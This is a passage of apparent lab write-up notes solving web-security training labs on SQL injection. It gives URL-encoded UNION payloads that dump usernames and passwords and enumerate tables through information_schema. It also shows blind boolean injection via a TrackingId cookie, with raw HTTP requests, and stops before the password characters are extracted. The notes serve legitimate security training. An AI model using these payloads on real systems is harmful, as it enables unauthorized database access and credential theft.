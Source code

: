 ```

# Find the username and password using concatination from the categories vulnerable to SQLi in Shop. 

First find the column number and which one holds the strings:
Columns - ```category=Gifts%27%20UNION%20SELECT%20NULL,NULL--```
Strings - ```category=Gifts%27%20UNION%20SELECT%20NULL,%27abc%27--```
Now concatenate the username and password fields from the users table - ```category=Gifts%27+UNION+SELECT+NULL,username||%27~%27||password+FROM+users--```
Where the concatination was ``` 'UNION SELECT NULL,username||'~'||password FROM users--```

# Retrieve the version string from a Microsoft or MySQL database via the categories SQLi. 
```
category=Tech+gifts%27%20UNION%20ALL%20SELECT%20NULL,version()%20--%20-
```
The solution payload didn't actually work in this case, I ended up using SQLmap to find payloads that did work and then made the above one on my own. 

# Get the database and table information out of the database 

Get the admin login. 

First, determine number of columns. 
Second, list table names from information_schema.tables - ```category=Gifts%27+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--```
Third, select the column names from the table from information_schema.columns - ```category=Gifts%27+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns%20WHERE%20table_name=%27users_brauzl%27--```
Finally, extract the usernames and passwords from the table users_brauzl and the columns found - ```category=Gifts%27%20UNION%20SELECT%20username_onopjk,%20password_bikvfm%20FROM%20users_brauzl%20--```

# Find the SQL injection (trackingId cookie) and then use blind boolean methods to uncover the administrator's password to login. 

Found the SQLi by conducting a simple 1=1 boolean injection on the cookie which when 1=2 we did not get the "Welcome Back" tracking banner but when 1=1 we did. 
```
GET /filter?category=Toys+%26+Games HTTP/2
Host: 0af200090370843486cfde7a00470058.web-security-academy.net
Cookie: TrackingId=BQ4yupPEXi6QwoRX'+AND+'1'='2'--; session=v6Cy546NwHBVlsM3LlV8KsK1hkx78Dwm
```
Then, we check to see if there is a username that starts with 'a' in the users table:
```
GET /filter?category=Toys+%26+Games HTTP/2
Host: 0af200090370843486cfde7a00470058.web-security-academy.net
Cookie: TrackingId=BQ4yupPEXi6QwoRX'+AND+(SELECT 'a' FROM users LIMIT 1)='a; session=v6Cy546NwHBVlsM3LlV8KsK1hkx78Dwm
```
Then, validate that the username is indeed administrator:
```
GET /filter?category=Toys+%26+Games HTTP/2
Host: 0af200090370843486cfde7a00470058.web-security-academy.net
Cookie: TrackingId=BQ4yupPEXi6QwoRX'+AND+(SELECT 'a' FROM users WHERE username='administrator')='a; session=v6Cy546NwHBVlsM3LlV8KsK1hkx78Dwm
```
Determine the length of the administrators password by asking if it is true that the length is greater than 19 which it is but it is not greater than 20:
```
GET /filter?category=Toys+%26+Games HTTP/2
Host: 0af200090370843486cfde7a00470058.web-security-academy.net
Cookie: TrackingId=BQ4yupPEXi6QwoRX'+AND+(SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>19)='a; session=v6Cy546NwHBVlsM3LlV8KsK1hkx78Dwm
```
Next, we're looking to find all 20 characters to the password. 
```